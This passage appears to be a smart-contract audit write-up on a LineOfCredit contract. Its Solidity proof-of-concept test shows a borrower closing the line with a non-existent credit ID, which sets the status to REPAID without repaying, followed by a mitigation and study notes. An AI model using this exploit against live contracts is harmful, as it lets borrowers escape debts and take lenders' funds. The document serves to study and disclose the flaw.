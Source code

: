 ```solidity
}
```

Proof of Concept:

```solidity
// contracts/tests/LineOfCredit.t.sol
function testCloseWithoutRepaying_AUDIT() public {
    assertEq(supportedToken1.balanceOf(address(line)), 0, "Line balance should be 0");
    assertEq(supportedToken1.balanceOf(lender), mintAmount, "Lender should have initial mint balance");
      
    _addCredit(address(supportedToken1), 1 ether);
    bytes32 id = line.ids(0);
    assert(id != bytes32(0));
    assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether, "Lender should have initial balance less lent amount");
    
    hoax(borrower);
    line.borrow(id, 1 ether);
    assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether, "Borrower should have initial balance + loan");
    
    // The credit hasn't been repaid.
    // hoax(borrower);
    // line.depositAndRepay(1 ether);
    
    hoax(borrower);
    // Closing with a non-existent credit ID.
    line.close(bytes32(uint256(31337)));
    // The debt hasn't been repaid but the status is REPAID.
    assertEq(uint(line.status()), uint(LineLib.STATUS.REPAID));
    // Lender's balance is still reduced by the borrow amount.
    assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether);
    // Borrower's balance still includes the borrowed amount.
    assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether);
}
```
### Recommended Mitigation

In the `close` function of `LineOfCredit`, consider ensuring that a credit with the user-supplied ID exists, before closing it.
### Discussion

### Notes

#### The Normal Flow

In a properly functioning system, the credit lifecycle should work like this:

1. A lender adds credit (deposits funds)
2. A borrower borrows against this credit
3. The borrower repays the principal and interest
4. Either party can close the credit position once fully repaid
#### Impressions
***Input validation must be performed on all external inputs, especially those that control system state transitions.***
### Tools
### Refine
- [[1-Business_Logic]]
- [[2-Validation]]

---